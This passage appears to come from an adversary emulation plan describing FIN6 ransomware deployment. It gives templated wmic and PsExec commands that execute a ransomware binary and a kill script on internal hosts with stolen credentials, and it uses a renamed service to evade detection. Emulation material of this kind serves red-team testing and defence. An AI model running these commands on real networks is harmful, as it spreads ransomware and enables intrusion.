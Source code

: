 ##### Ransomware

FIN6 Procedure

```sh
wmic /node:#{Ransomware recipient} /user:#{"domain\username"} /password:#{"password"} process call create "cmd /c c:\windows\temp\sss.exe"
```

#### PsExec ([T1569.002](https://attack.mitre.org/techniques/T1569/002/))

FIN6 has used the -r option to change the default remote service name in order to avoid detection.  The group is believed to have named the remote services "mstdc" or "rtrsd."<sup>[4](https://www.fireeye.com/blog/threat-research/2019/04/pick-six-intercepting-a-fin6-intrusion.html)</sup>  The command below authenticates over SMB, executes a command or binary, and returns the results locally.

##### Kill Script

FIN6 Procedure

```sh
psexec.exe \\#{internal IP} -u #{"domain\username"} -p #{"password"} -d -h -r rtrsd -s -accepteula -nobanner c:\windows\temp\windows.bat or kill.bat
```

##### Ransomware

FIN6 Procedure

```sh
psexec.exe \\#{internal IP} -u #{"domain\username"} -p #{"password"} -d -h -r rtrsd -s -accepteula -nobanner c:\windows\temp\sss.exe
```
